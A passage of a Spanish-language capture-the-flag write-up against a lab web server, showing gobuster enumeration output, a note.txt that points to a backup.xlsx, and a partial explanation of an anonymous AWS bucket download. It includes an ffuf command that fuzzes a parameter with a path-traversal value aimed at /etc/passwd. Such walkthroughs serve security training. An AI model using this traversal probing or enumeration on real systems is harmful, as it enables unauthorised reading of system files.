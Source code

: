 Reporte:
```bash
/vendor/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
```bash
/vendor/              (Status: 200) [Size: 3104]
```

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,txt,backup,sh,html,js,java,pl
```

- **Hallazgos**:
```bash
/index.php            (Status: 200) [Size: 1953]
/admin.php            (Status: 302) [Size: 0] [--> index.php]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/vendor               (Status: 301) [Size: 309] [--> http://172.17.0.2/vendor/]
/note.txt             (Status: 200) [Size: 13]
```

### Descubrimiento de Subdominios
```bash
ffuf -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u "http://172.17.0.2/vendor/autoload.php?FUZZ=../../../../etc/passwd" -fs 0
```

- **Hallazgos**:
	No reporta nada

Tenemos esta url con un archivo note.**txt**:
```bash
http://172.17.0.2/note.txt
```

Revisando su contenido:
```bash
/backup.xlsx
```

**Descarga el archivo `backup.xlsx` desde el bucket de almacenamiento a tu computadora local.**
1. `aws`
    - Herramienta de línea de comandos de AWS
        
2. `--no-sign-request`
    - **Acceso sin credenciales** (usa permisos públicos del bucket)
        